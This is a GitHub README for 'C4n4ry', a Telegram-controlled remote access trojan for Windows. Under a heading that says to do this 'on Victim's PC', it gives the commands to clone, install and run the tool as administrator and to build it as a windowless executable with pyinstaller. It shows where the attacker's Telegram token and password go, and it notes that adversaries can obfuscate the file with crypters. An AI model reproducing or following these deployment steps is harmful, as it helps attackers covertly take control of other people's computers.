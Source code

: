 <p align="center">
<a href="https://git.io/typing-svg">
<img src="https://readme-typing-svg.demolab.com?font=Fira+Code&weight=700&duration=3000&pause=900&background=FFFFFF00&center=true&vCenter=true&random=false&width=435&lines=Welcome+To+The+C4n4ry!!" alt="Typing SVG" />
</a></p>

###### <p align="center">*This is official repository maintained by me*
###### <p align="center"> *[0xb14cky → Instagram](https://www.instagram.com/0xb14cky/)✌*
###### <p align="center"> *[0xB14CKY→ Youtube](https://www.youtube.com/channel/UC8bmAXnfIitSouOnhD9bjzA/) ❤️*
  

## C4n4ry
 
A Simple Telegram API Based Remote RAT for Windows

## Do This On Victim's PC

1. Running .py file (Run as Admin)
```
git clone https://github.com/b14ckky/C4n4ry
cd C4n4ry
pip install -r requirements.txt
python C4n4ry.py
```
2. Running .exe file (Run as Admin) (Recommended)
```
git clone https://github.com/b14ckky/C4n4ry
cd C4n4ry
# auto-py-to-exe or pyinstaller
pip install pyinstaller auto-py-to-exe
pyinstaller --noconfirm --onefile --windowed C4n4ry.py
```

- How to Obtain Own API of Telegram
[https://core.telegram.org/api/obtaining_api_id]
 
- Add Your Telegram API Key in File

```py
# Telegram Token
TOKEN = ""
AUTH_Password = "" 
```
 ### Why are TOKEN and AUTH passwords hardcoded?

- Because if any Adversary can obsucate it using some crypters, converge it to exe, and run into testing machines, so that's why the command line argument feature is not given. 

 ### Development by

Developer / Author: [0xB14CKY](https://www.instagram.com/0xb14cky/)


